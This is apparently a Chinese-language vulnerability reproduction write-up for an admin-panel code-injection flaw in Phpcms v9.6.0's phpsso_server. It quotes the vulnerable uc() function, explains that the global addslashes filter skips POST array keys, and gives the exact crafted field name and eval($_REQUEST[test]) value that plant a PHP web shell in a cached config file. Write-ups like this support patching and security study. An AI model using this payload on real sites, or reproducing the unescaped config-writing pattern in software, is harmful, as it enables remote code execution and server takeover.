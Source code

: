 ```yaml
---
title: "Phpcms v9.6.0后台getshell"
id: zhfly3075
---
```


# Phpcms v9.6.0后台getshell

## 一、漏洞简介

phpsso_server 后台getshell

## 二、漏洞影响

Phpcms v9.6.0

## 三、复现过程

漏洞来自于ROOTDIR/phpsso_server/phpcms/modules/admin/system.php

```
public function uc() {
        if (isset($_POST['dosubmit'])) {
            $data = isset($_POST['data']) ? $_POST['data'] : '';
            $data['ucuse'] = isset($_POST['ucuse']) && intval($_POST['ucuse']) ? intval($_POST['ucuse']) : 0;
            $filepath = CACHE_PATH.'configs'.DIRECTORY_SEPARATOR.'system.php';
            $config = include $filepath;
            $uc_config = '<?php '."\ndefine('UC_CONNECT', 'mysql');\n";
            foreach ($data as $k => $v) {
                $old[] = "'$k'=>'".(isset($config[$k]) ? $config[$k] : $v)."',";
                $new[] = "'$k'=>'$v',";
                $uc_config .= "define('".strtoupper($k)."', '$v');\n";
            }
            $html = file_get_contents($filepath);
            $html = str_replace($old, $new, $html);
            $uc_config_filepath = CACHE_PATH.'configs'.DIRECTORY_SEPARATOR.'uc_config.php';
            @file_put_contents($uc_config_filepath, $uc_config);
            @file_put_contents($filepath, $html);
            $this->db->insert(array('name'=>'ucenter', 'data'=>array2string($data)), 1,1);
            showmessage(L('operation_success'), HTTP_REFERER);
        }
        $data = array();
        $r = $this->db->get_one(array('name'=>'ucenter'));
        if ($r) {
            $data = string2array($r['data']);
        }
        include $this->admin_tpl('system_uc');
    } 
```

来自这段中的

$data = isset($_POST['data']) ? $_POST['data'] : '';

和

foreach ($data as $k => $v) {
$old[] = "'$k'=>'".(isset($config[$k]) ? $config[$k] : $v)."',";
$new[] = "'$k'=>'$v',";
$uc_config .= "define('".strtoupper($k)."', '$v');\n";
}

这里接收post['data']数据中的key，value并写入配置文件ROOTDIR/phpsso_server/caches/configs/uc_config.php中

在ROOTDIR/phpcms/libs/classes/param.class.php中

```
public function __construct() {
        if(!get_magic_quotes_gpc()) {
            $_POST = new_addslashes($_POST);
            $_GET = new_addslashes($_GET);
            $_REQUEST = new_addslashes($_REQUEST);
            $_COOKIE = new_addslashes($_COOKIE);
        } 
```

全局过滤了post，但是这里只过滤了value，并没有过滤key

![image](../img/a514ff83d09f445b5466dd61a583f6c8.png)

在这个地方，我们可以构造

```
name="data[uc_api','11');/*]" 
```

并在Ucenter api 地址输入:

```
*/eval($_REQUEST[test]);// 
```

再进行缓存更新

![image](../img/95d050568268424b3d445b0c680bfdae.png)

就成功写入了一句话

![image](../img/8ff5796316ea90651c8809933564f136.png)

![image](../img/00340effd9c3ceda99bf9aec30d1429e.png)